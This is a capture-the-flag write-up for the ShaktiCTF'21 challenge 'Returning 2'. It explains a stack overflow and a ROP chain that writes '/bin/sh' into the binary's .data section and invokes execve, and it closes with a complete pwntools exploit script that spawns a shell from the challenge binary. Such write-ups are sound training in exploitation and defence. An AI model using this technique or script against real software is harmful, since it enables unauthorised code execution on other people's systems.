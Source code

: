 # ShaktiCTF'21: Returning 2

Author: Shruti (@rudyerudite)

This was a fairly beginner friendly challenge with a clear 120-byte overflow. We also see an `alloca` function which is used to allocate space on the stack. I gave an allocation of `-40` so that I get the allocation at RBP. Note that PIE is diasbled here.

By using `ROPgadget` tool we can find the required ROP gadgets for crafting the exploit payload. As `'/bin/sh'` cannot be found in the binary and nor we can write it at .bss, thus we have to find and address in binary with permissions `rw`. I chose to overwrite an address in the .data section. You can see the permissions of different sections in the binary by executing `vmmap` in GDB and finding the required address. Thus, I used the `mov    QWORD PTR [rdi],rax` gadget with rax having the string `'/bin/sh'` and rdi pointing to the address `0x601040`. Next, we can do the execve syscall.

Here's the final exploit for the challenge:

``` C
from pwn import *

r = process("./chall")

pop_rax = p64(0x000000000040079a)
pop_rdx = p64(0x0000000000400788)
pop_rdi = p64(0x000000000040077f)
pop_rsi = p64(0x0000000000400791)
mov = p64(0x400774)
syscall = p64(0x00000000004007a3)

exp = 'a'*0x8
exp += pop_rdi + p64(0x0000000000601040) 
exp += pop_rax + "/bin/sh\x00"
exp += mov
exp += pop_rsi + p64(0)
exp += pop_rdx + p64(0)
exp += pop_rax + p64(0x3b) 
exp += syscall
exp += p64(0x000000000040059e)
print(len(exp))
r.sendline(str(-40))
r.sendlineafter("text:\n",exp)

r.interactive()
```